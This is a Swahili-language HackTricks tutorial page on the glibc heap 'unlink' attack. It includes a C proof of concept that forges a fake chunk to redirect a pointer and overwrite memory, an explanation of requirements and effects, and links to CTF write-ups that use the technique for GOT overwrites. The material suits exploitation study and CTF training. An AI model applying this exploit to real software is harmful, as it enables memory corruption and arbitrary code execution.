 # Shambulio la Unlink

{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa Msingi

Wakati shambulio hili lilipogunduliwa, kwa kiasi kikubwa liliruhusu WWW (Andika Nini Wapi), hata hivyo, **uchunguzi fulani uliongezwa** ukifanya toleo jipya la shambulio kuwa la kuvutia zaidi na **ngumu zaidi na **hakina maana**.

### Mfano wa Kanuni:

<details>

<summary>Kanuni</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Shambulizi halifanyi kazi ikiwa tcaches zinatumika (baada ya 2.26)

### Lengo

Shambulizi hili linaruhusu **kubadilisha kipande cha kielekezi ili kielekee anwani 3 kabla yake**. Ikiwa eneo hili jipya (mazingira ya kielekezi kilichokuwa kimehifadhiwa) lina vitu vya kuvutia, kama alokesheni zingine zinazoweza kudhibitiwa / stack..., inawezekana kusoma/kuandika juu yao kusababisha madhara makubwa zaidi.

* Ikiwa kielekezi hiki kilikuwa kimehifadhiwa kwenye stack, kwa sababu sasa kinakielekeza kwenye anwani 3 kabla yake na mtumiaji anaweza kusoma na kukiweka, itawezekana kuvuja habari nyeti kutoka kwenye stack au hata kubadilisha anwani ya kurudi (labda) bila kugusa canary
* Katika mifano ya CTF, kielekezi hiki kimehifadhiwa katika safu ya kielekezi kwa alokesheni zingine, hivyo, kukiweka kielekezi 3 anwani kabla na kuweza kusoma na kuandika, inawezekana kufanya kielekezi kingine kielekee anwani zingine.\
Kwa kuwa mtumiaji anaweza pia kusoma/kuandika alokesheni zingine, anaweza kuvuja habari au kuandika anwani mpya katika maeneo ya kiholela (kama kwenye GOT).

### Mahitaji

* Udhibiti fulani katika kumbukumbu (k.m. stack) ili kuunda vikundi viwili vikitoa thamani kwa baadhi ya sifa.
* Kuvuja kwa stack ili kuweza kuweka kielekezi cha kipande bandia.

### Shambulizi

* Kuna vikundi viwili (kikundi1 na kikundi2)
* Mshambuliaji anadhibiti maudhui ya kikundi1 na vichwa vya kikundi2.
* Katika kikundi1 mshambuliaji anaunda muundo wa kipande bandia:
* Ili kuzidi kinga anahakikisha kuwa uga wa `ukubwa` ni sahihi ili kuepuka kosa: `ukubwa ulioharibika dhidi ya ukubwa uliopita wakati wa kufanya kazi`
* na uga za `fd` na `bk` za kipande bandia zinaelekeza kwenye eneo ambapo kielekezi cha kikundi1 kimehifadhiwa kwa kuzidi kwa -3 na -2 mtawalia hivyo `kielekezi_bandia->fd->bk` na `kielekezi_bandia->bk->fd` zinaelekeza kwenye nafasi kwenye kumbukumbu (stack) ambapo anwani halisi ya kikundi1 iliyohifadhiwa:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Vichwa vya kikundi2 vinabadilishwa kuonyesha kuwa kipande kilichopita hakijatumika na ukubwa ni ukubwa wa kipande bandia kilichomo.
* Wakati kikundi cha pili kinapofutwa basi kipande bandia hiki kinatenganishwa kufanyika:
* `kielekezi_bandia->fd->bk` = `kielekezi_bandia->bk`
* `kielekezi_bandia->bk->fd` = `kielekezi_bandia->fd`
* Awali ilifanywa kuwa `kielekezi_bandia->fd->bk` na `kielekezi_bandia->bk->fd` zinaelekeza kwenye eneo moja (eneo kwenye stack ambapo `kikundi1` kilihifadhiwa, hivyo ilikuwa orodha halali). Kwa kuwa **zote zinaelekeza kwenye eneo moja** ni ile ya mwisho (`kielekezi_bandia->bk->fd = kielekezi_bandia->fd`) itakayochukua **athari**.
* Hii ita**andika upya kielekezi cha kikundi1 kwenye stack kwenye anwani (au baits) zilizohifadhiwa 3 anwani kabla kwenye stack**.
* Kwa hivyo, ikiwa mshambuliaji angeweza kudhibiti tena maudhui ya kikundi1, ataweza **kuandika ndani ya stack** akiweza kwa uwezekano kubadilisha anwani ya kurudi akiruka canary na kubadilisha thamani na kielekezi cha mchanganyiko wa pembeni. Hata kubadilisha tena anwani ya kikundi1 iliyohifadhiwa kwenye stack kwenda eneo tofauti ambapo ikiwa mshambuliaji angeweza kudhibiti tena maudhui ya kikundi1 ataweza kuandika popote.
* Tafadhali elewa kuwa hili lilikuwa linawezekana kwa sababu **anwani zimehifadhiwa kwenye stack**. Hatari na unyonyaji inaweza kutegemea **anwani za kipande bandia zinahifadhiwa wapi**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Marejeo

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Ingawa itakuwa ajabu kupata shambulizi la unlink hata katika CTF hapa kuna baadhi ya maandishi ambapo shambulizi hili lilikuwa limeitwa:
* Mfano wa CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Katika mfano huu, badala ya stack kuna safu ya anwani za malloc'ed. Shambulizi la unlink linatekelezwa ili kuweza kutenga kipande hapa, hivyo kuweza kudhibiti kielekezi cha safu ya anwani za malloc'ed. Kisha, kuna utendaji mwingine unaoruhusu kubadilisha maudhui ya vikundi katika anwani hizi, ambayo inaruhusu kuelekeza anwani kwenye GOT, kubadilisha anwani za kazi kupata uvujaji wa libc, na kisha kubadilisha atoi GOT na anwani ya kifaa cha moja.
* Mfano mwingine wa CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Kama ilivyokuwa katika mfano uliopita, kuna safu ya anwani za alokesheni. Inawezekana kutekeleza shambulizi la unlink ili kufanya anwani ya alokesheni ya kwanza ielekee machache kabla ya kuanza safu na kisha kuandika alokesheni hii kwenye nafasi mpya. Kwa hivyo, inawezekana kuandika upya kielekezi cha alokesheni zingine ili kielekee GOT ya atoi, kuchapisha ili kupata uvujaji wa libc, na kisha kuandika atoi GOT na anwani ya kifaa cha moja.
* Mfano wa CTF na kazi za malloc na free za desturi ambazo zinatumia kasoro inayofanana sana na shambulizi la unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Kuna kipeperushi kinachoruhusu kudhibiti FD na BK pointers za malloc ya desturi ambayo itakuwa huru (desturi). Zaidi ya hayo, heap ina biti ya exec, hivyo inawezekana kuvuja anwani ya heap na kuelekeza kazi kutoka kwa GOT kwenye kipande cha heap na shellcode kutekeleza.

{% hint style="success" %}
Jifunze & zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **fuata** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
